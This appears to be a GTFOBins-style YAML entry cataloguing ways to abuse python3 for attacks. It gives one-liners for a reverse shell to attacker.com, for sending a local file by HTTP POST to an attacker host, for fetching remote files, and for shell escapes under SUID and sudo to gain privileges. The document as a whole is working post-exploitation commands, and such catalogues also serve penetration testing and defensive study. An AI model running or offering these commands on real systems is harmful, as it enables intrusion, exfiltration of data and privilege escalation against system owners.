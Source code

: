 ```yaml
---
functions:
  execute-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  file-write:
    - code: python3 -c 'open("file_to_write","w+").write("data")'
  file-read:
    - code: python3 -c 'open("file_to_read").read()'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
---
```

